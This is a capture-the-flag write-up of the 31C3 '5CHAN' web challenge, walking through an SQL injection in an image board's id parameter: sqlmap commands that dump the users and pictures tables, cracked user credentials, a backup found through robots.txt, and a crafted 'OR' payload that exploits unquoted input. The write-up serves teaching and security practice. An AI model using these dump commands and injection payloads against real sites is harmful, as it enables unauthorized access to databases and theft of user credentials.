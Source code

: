 # 5CHAN

**Category:** Web
**Points:** 15
**Description:**

> 5CHAN? never heard of this image board, but they have exactly what we need,the picture we're looking for is not for public, so can you get it?
> http://188.40.18.89/

## Write-up

5CHAN was a simple image site.

It contained 8 different images on the frontpage. While there was a register link, registration was disabled. There was also a login page and search bar, but both seemed to do nothing.

The goal was to find a private image hidden on the site.

Clicking on an image brought us to its page:
`http://188.40.18.89/?page=pic&id=1`

The id parameter was susceptible to SQL injection:
http://188.40.18.89/?page=pic&id=%27

We started enumerating databases:
```bash
$ sqlmap -u "http://188.40.18.89/?id=1&page=pic" --dbs --threads 10
```

And found a database called `5chan`. We enumerated the tables: 
`pictures` and `users`.

And dumped them:
```bash
$ sqlmap -u "http://188.40.18.89/?id=8&page=pic" -D 5chan -T pictures --dump --threads 10
$ sqlmap -u "http://188.40.18.89/?id=8&page=pic" -D 5chan -T users --dump --threads 10
```

The users table contained several usernames including their password in SHA1. Doing a quick search led us to immediately find following user accounts:
`unfoldedclunk:abcdef` and `boxercheek:123456`.

The pictures table included 9 pictures, the final one being the flag with id 9. Unfortunately, trying the above link with this id did not give us any result.

We proceeded to check for other clues and found a [robots.txt](robots.txt) file in the http root. This file mentioned a special folder: `/.OurBackupz/`. This folder included a backup of the code and database. 

The database did not contain any passwords (unlike our dump) but we now possessed the original source code for the image board.

In `/__pages/__pic.php` we found following line used to return an image:

```php
$request="SELECT * FROM pictures WHERE level<=$access AND id=".mysqli_real_escape_string($con,@$_GET['id']." LIMIT 0,1");
```

While they used mysqli_real_escape_string() to escape any malicious characters, they forgot to put quotes around it, making following injection possible:

```mysql
SELECT * FROM pictures WHERE level<=1 AND id=9 OR id=9 AND 1=1 LIMIT 0,1
```

With this payload:

`http://188.40.18.89/?page=pic&id=9 OR id=9 AND 1=1`

The flag.jpg image was shown, containing the flag:
`31c3_st0Pp_Us1nG_==_&&_St4rt_Us1Ng_===`